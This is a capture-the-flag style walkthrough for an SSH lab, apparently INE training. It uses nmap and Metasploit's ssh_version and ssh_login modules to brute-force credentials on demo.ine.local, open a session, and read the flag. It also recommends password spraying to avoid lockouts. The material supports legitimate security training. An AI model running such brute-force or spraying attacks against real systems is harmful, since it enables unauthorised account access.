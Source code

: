 ### Step 2 — Nmap discovery 

```bash
nmap -sS -sV demo.ine.local
```

Expected: port 22 open and service `ssh` detected. Save the output in case you need to reference it in reports.

### Step 3 — Determine SSH version (msf module)

You used the Metasploit SSH version module — correct.

```text
msf6 > use auxiliary/scanner/ssh/ssh_version
msf6 auxiliary(ssh_version) > set RHOSTS demo.ine.local
msf6 auxiliary(ssh_version) > run
```

What it does: connects and fingerprints SSH banner/algorithms. Example output shows protocol version and banner.

### Step 4 — Brute force / credential testing (msf `ssh_login`)

You ran the `ssh_login` module with common user/password lists — correct approach in the lab.

```text
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(ssh_login) > set RHOSTS demo.ine.local
msf6 auxiliary(ssh_login) > set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf6 auxiliary(ssh_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
msf6 auxiliary(ssh_login) > set STOP_ON_SUCCESS true
msf6 auxiliary(ssh_login) > set VERBOSE true
msf6 auxiliary(ssh_login) > run
```

Expected output: `LOGIN SUCCESS` when a valid user:password pair is found. Metasploit will often record that credential in its database automatically.

Notes: In real engagements, prefer password spraying and low-rate testing to avoid account lockouts.

### Step 5 — If msf opens a session (post-auth interactive)

When `ssh_login` finds valid creds it may spawn a session (shell or meterpreter). You then interact with it:

```text
msf6 > sessions
msf6 > sessions -i 1   # replace 1 with the session ID
# In the remote shell
whoami; id; hostname; uname -a
find / -name "flag" 2>/dev/null
cat /flag
```

